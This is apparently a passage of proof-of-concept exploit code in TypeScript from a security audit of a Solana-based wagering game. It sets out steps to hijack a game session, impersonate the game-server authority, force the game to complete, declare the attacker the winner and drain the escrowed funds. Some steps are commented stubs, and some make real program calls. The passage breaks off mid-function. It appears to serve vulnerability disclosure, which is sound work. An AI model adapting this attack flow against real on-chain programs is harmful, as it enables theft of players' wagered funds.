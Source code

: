 ```typescript
        await this.impersonateAuthority(collisionId);

        // Step 4: Manipulate state to completion
        await this.forceGameCompletion(collisionId);

        // Step 5: Declare self as winner
        await this.declareWinner(collisionId, this.attackerKeypair.publicKey);

        // Step 6: Exploit fund drainage to maximize extraction
        await this.drainFunds(collisionId);
    }

    private generateCollisionId(targetId: string): string {
        // Exploit predictable session ID generation
        // Target sessions with simple IDs like "game_1", "session_123"
        return targetId + "_hijacked";
    }

    private async createParallelSession(sessionId: string, betAmount: number): Promise<void> {
        // Create session with same economic parameters
        await this.wagerProgram.methods
            .createGameSession(sessionId, betAmount, GameMode.WinnerTakesAllFiveVsFive)
            .accounts({
                gameServer: this.compromisedAuthority.publicKey,
                // ... other accounts
            })
            .signers([this.compromisedAuthority])
            .rpc();
    }

    private async impersonateAuthority(sessionId: string): Promise<void> {
        // Use exposed gameserver keys from VUL-096
        // Or exploit authority validation weaknesses
        const sessionPDA = this.getSessionPDA(sessionId);

        // Authority field can be manipulated during creation
        // or exploited through validation weaknesses
    }

    private async forceGameCompletion(sessionId: string): Promise<void> {
        // Exploit state transition weaknesses
        // Skip normal game flow and jump to completion
        const gameSession = await this.getGameSession(sessionId);

        // Manipulate player arrays to include attacker
        // Force status to InProgress then immediately to completion
    }

    private async declareWinner(sessionId: string, winner: PublicKey): Promise<void> {
        // Use authority privileges to declare arbitrary winner
        await this.wagerProgram.methods
            .distributeWinnings(sessionId, 0) // Team 0 wins
            .accounts({
                gameServer: this.compromisedAuthority.publicKey,
                // Fake remaining accounts with attacker as all winners
            })
            .signers([this.compromisedAuthority])
            .rpc();
    }

    private async drainFunds(sessionId: string): Promise<void> {
        // Exploit VUL-001 fund drainage for maximum extraction
        // Each "winner" gets session_bet * 2, repeat for all 5 positions
```